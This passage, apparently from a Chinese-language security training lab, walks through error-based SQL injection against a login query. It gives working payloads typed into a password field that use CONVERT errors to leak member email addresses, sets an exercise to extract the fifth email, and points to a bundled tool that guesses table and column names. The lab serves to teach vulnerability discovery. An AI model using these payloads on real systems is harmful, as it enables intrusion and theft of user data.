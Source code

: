 5. 發生錯誤會顯示完整的錯誤訊息，就可以利用它來將資料顯示出來

    ```sql
    SELECT * FROM Users Where Email = '{email}' and Password = '
    <<這裡可以搞怪>>
    '
    ```

    改成

    ```sql
    SELECT * FROM Users Where Email = '{email}' and Password = '
    ' +  CONVERT(INT,'a')--
    '
    ```

    ![SQL Conver Error](images/s2-02.png)

6. 利用錯誤取得會員 Email 資料

    ```sql
    SELECT * FROM Users Where Email = '{email}' and Password = '
    ' + CONVERT(INT, (SELECT Top 1 A2.Email From ( SELECT Top 2 A1.Email FROM Users A1 Order By A1.Email ) A2 Order By A2.Email Desc) + ']')--
    '
    ```

    ![SQL Conver Error Show Top2Email](images/s2-03.png)

    >Todo: 請試著取出**第五筆資料**的Email

7. 跟[找出漏洞修改商品價格，低價購入](<Instructions/Session2/s1.md>)內容一樣，有一樣的規則，透過程式來取出資料比手動一個一個輸入來得快多了。開啟 Guessing\bin\Debug\Guessing.exe，**TableName** 第2個 TextBox 輸入 **2**，按下「**猜 TableName**」來猜出 **USERS**。按下「**猜 Columns**」可猜出會員的所有欄位。
